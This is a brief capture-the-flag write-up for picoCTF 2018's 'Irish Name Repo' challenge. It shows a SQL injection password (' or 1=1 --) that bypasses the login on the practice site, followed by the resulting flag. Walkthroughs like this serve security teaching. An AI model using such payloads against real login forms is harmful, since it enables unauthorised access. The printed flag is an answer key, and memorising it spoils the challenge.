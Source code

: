 # Irish Name Repo - Points: 200 - (Solves: 715)

There is a website running at http://2018shell2.picoctf.com:59464 (link).

Do you think you can log us in? Try to see if you can login!

---

```
user: Admin
pass: ' or 1=1 --
```

http://2018shell2.picoctf.com:59464/login.php

```
Logged in!

Your flag is: picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}
```

picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}
